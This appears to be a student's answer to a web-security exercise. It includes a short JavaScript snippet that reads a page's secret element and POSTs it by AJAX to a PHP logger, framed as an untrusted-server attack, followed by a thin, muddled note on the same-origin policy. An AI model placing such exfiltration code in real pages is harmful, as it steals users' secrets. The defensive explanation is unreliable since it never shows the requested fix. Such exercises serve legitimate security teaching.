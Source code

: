 ```
Look at the code of integrator.html and write code for evilGadget.js in such a way that evilGadget.js will send the secret to an untrusted server. How do you rewrite integrator.html so the same origin policy will protect the secret?
```
We can send data to another server using AJAX.
```
var secret= document.getElementById("secret").textContent;
var xhttp = new XMLHttpRequest();

xhttp.open("POST","writer.php",true);
xhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xhttp.send("secret="+secret);
```
AJAX can send request to another servers asynchronously.
We do a php file which write the secret codes in a txt file.

### Protection from SOP.
Same Origin Policy protect our site if we want to load a file from another server, another port or another subdomain.
![SOP table permissions](https://i.imgur.com/Omfa4V6.png)
We adopt any this methods to prevent it.
